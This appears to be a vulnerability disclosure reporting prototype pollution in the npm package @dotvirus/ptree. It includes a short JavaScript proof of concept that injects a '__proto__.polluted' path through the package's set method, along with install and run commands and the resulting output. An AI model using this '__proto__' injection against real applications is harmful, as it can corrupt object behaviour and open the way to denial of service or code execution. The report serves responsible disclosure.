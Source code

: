 # Description

`@dotvirus/ptree` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const ptree = require('@dotvirus/ptree').default

console.log('Before: ' + {}.polluted)
const tree = new ptree({})
tree.set("__proto__.polluted", true)
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i @dotvirus/ptree # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

